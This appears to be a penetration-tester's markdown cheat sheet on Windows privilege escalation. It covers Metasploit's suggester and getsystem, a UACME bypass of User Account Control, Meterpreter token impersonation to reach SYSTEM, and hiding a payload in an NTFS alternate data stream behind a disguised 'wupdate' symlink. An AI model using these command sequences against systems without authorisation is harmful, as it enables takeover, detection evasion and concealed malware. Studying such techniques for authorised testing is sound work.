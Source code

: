 

# Privilege Escalation
-> Metasploit: `search suggester`

-> meterpreter: `getsystem`

-> linux/windows_suggester from github
also by getting the systeminfo, run `systeminfo`, then copy the information and save them in a file, then pass that file to the linux/windows_suggester tool. `*suugester.py --systeminfo win.txt`

### Bypass UAS (User Account Control)
Tools:
- UACME from github: upload it on target and run the payload using it `.\Akagi64.exe 23 paylaod.exe`, make sure to start your listener to get the session connection.

## Access Token Impersonation
Windows Access Token are created by winlogon.exe process and managed by LSASS for authentication process. this token is then attached to the userinit.exe process, which all child process that runs under the user will copy that token and run under the privilege of that user.

Privileges that are required for impersonate attack:

**SeAssignPrimaryToken**: This allows a user to impersonate tokens

**SeCreateToken**: This allows a user to create a arbitrary token with administrative priviliges.

**SeImpersonatePrivilege**:This allows a user to create a process under a security context of another user with administrative privileges


Incognito is a built-in meterpreter module to impersonate user tokens after exploitation..
```
meterpreter> pgrep explorer -> to migrate the session to another process and explorer process is recommended. and if you run `getprivs` but you get and error do that also.
meterpreter> migrate $explorer_id
meterpreter> getuid
meterpreter> getprivs
meterpreter> load incognito
meterpreter> list_tokens -u
meterpreter> impersonate_token "$name_of_the_token"
meterpreter> getuid
and keep doing that until you found the "NT AUTHORITY/SYSTEM"
```
## Alternate Data Streams (ADS)
ADS is an NFTS file attribute. 
Any file create on NTFS formatted drive will have 2 different forks/streams:
- Data Stream: Default stream that contain the data of the file
- Resource stream: typically contains the metadata of the file 
Here attacker can use ADS to hide malicious code by storing it in the file attribute resource stream(metadata) to evade detection
1. open cmd
2. `cmd> notepad test.txt`
3. `cmd> notepad test.txt:secrets.txt`
4. `cmd> type payload.exe > test.txt:payload.exe`
5. `cmd> start test.txt:payload.exe` -> error, so we create a symbol link for that
5. `cmd> mklink wupdate.exe test.txt:payload.exe` 
6. `cmd> wupdate` -> whenever you type wupdate the payload will be executed!
